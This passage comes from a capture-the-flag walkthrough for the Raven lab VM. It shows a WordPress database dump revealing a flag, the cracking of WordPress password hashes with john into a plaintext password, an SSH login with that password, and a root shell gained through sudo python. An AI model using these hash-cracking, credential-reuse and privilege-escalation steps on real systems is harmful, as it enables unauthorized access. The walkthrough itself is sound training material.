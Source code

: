    ```bash
    | flag4    	|          	| inherit 	| closed     	| closed  	|           	| 4-revision-v1 |     	|    	| 2018-08-12 23:31:59 | 2018-08-12 23:31:59 |                   	|       	4 | http://raven.local/wordpress/index.php/2018/08/12/4-revision-v1/ |      	0 | revision  |            	|         	0 |
    |  7 |       	2 | 2018-08-13 01:48:31 | 2018-08-13 01:48:31 | flag3{afc01ab56b50591e7dccf93122770cd2}                                                                         	
    ```


7. Crack password hashes with `john`.

   -  Create a wp_hashes.txt with Steven and Michael's hashes, formatted as follows
    
      ```
      michael:$P$$8jRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0
      steven:$P$8kJVD9jsxx/loJoqNsURgHiaB23j7W/
      ```
   - Use `john` to crack the hashes.

      ```bash
      # Michael's password won't crack
      $ john wp_hashes.txt
      $ john -show wp_hashes.txt
      steven:pink84
      ```

8. Secure a user shell as the user whose password you cracked.

    ```bash
    $ ssh steven@192.168.1.110
    Enter password: pink84
    ```

9. Escalate to `root`.
   
   - One flag can be discovered after this step.:w

    ```bash
    $ sudo python -c 'import pty;pty.spawn("/bin/bash");'
    root@TARGET1:/ > id
    uid=0(root) gid=0(root) groups=0(root)
    root@TARGET1:/ > cd /root
    root@TARGET1:/root > ls
    flag4.txt
    root@TARGET1:/root > cat flag4.txt
    ______                 	 
    | ___ \                	 
    | |_/ /__ ___   _____ _ __  
    |	/  /  _` \ \ / / _ \ '_ \
    | |\ \ (_| |\ V /  __/ | | |
    \_| \_\__,_| \_/ \___|_| |_|

                            
    flag4{715dea6c055b9fe3337544932f2941ce}

    CONGRATULATIONS on successfully rooting Raven!

    This is my first Boot2Root VM - I hope you enjoyed it.

    Hit me up on Twitter and let me know what you thought:

    @mccannwj / wjmccann.github.io
    ```
   ```